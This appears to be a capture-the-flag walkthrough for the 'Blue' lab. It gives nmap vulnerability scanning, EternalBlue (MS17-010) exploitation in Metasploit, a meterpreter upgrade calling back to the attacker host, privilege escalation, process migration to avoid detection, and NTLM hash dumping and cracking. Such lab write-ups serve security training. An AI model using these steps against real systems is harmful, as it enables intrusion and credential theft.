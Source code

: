 # Blue

### **Tasks**:

1. **Recon**:
   1. Do nmap version scan along with vuln script to find vulnerability
      1. `nmap -sV --script vuln ip`
      2. Vulnerable to CVE-2017-0143 or ms17-010 found.\[Eternal Blue] from nmap results - Answer all questions based on this output.
2. **Gain Access**:
   1. Start metasploit console , search ms17-010, use exploit/windows/smb/ms17\_010\_eternalblue, set RHOSTS to victim ip and run.
   2. Background session by pressing ctrl+z
3. **Escalate**:
   1. Convert shell to meterpreter: use post/multi/manage/shell\_to\_meterpreter , SET LHOST to attacker ip and SESSION (backgrounded session id , use sessions -l to list sessions).
   2. Execute **run**  to get meterpreter session and run `sessions -i MeterpreterSessionId` to switch to meterpreter session. Run `getsystem` to verify we got system access and are NT AUTHORITY\SYSTEM indeed.
   3. Use `ps` to list all process, migrate to any process running as system using `migrate pid` , we are injecting our meterpreter in running process to get stable and make our shell less detective.
4. **Cracking**:
   1. type `hashdump` in meterpreter session and obtain NTLM credential hash dump.
   2. Use [crackstation](https://crackstation.net), john or hashcat to get password of Jon.
5. **Find flags!**:
   1. run `search -f flag*` in meterpreter session, you will find location of flags.
   2. Do `cat location_of_flag` for all 3 flag locations and submit the flags !!!

